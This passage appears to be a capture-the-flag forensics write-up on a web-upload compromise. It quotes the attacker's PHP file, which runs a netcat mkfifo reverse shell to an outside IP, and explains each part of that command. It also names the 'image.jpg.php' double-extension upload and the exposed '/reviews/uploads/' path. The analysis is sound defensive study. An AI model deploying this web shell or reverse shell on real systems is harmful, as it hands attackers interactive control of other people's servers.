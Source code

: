 ```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

### What it does:
- `rm /tmp/f;`
    - Removes any old named pipe called `f` if it exists in `/tmp`
- `mkfifo /tmp/f;`
    - Creates a **named pipe** (FIFO) — acts like a virtual file for command input/output
- `cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f`
    - This is the core: it creates a loop between `sh` and the attacker's netcat listener.
        
Let's unwrap it:
1. `cat /tmp/f`  
    → Reads input sent by attacker into the pipe
2. `|/bin/sh -i`  
    → Sends that to `/bin/sh` in interactive mode
3. `2>&1`  
    → Redirects STDERR to STDOUT (so you get full output back)
4. `|nc 117.11.88.124 8080`  
    → Pipes the shell's output to **netcat**, which connects to the attacker's box
5. `>/tmp/f`  
    → Sends the attacker's responses _back_ into the named pipe so the shell can consume them again

💥 **Remote Code Execution Achieved** 💥

> This was a mkfifo-based reverse shell, but others (bash, python, perl, etc.) can be encoded in similar ways.

**Answer:** `image.jpg.php` ✅

---

### Q4: Upload Directory Exposed - /reviews/uploads/ {#q4-upload-directory-exposed--reviewsuploads}

**Approach:** Here we are looking for the **web-accessible path** (the URL directory), not the literal `/var/www/html/` backend path., I filtered with:

```bash
http.request.method == "GET"
```

Found this request:

```http
GET /reviews/uploads/image.jpg.php HTTP/1.1
```

**Answer:** `/reviews/uploads/` ✅

---

### Q5: Reverse Shell Target Port - 8080 {#q5-reverse-shell-target-port--8080}
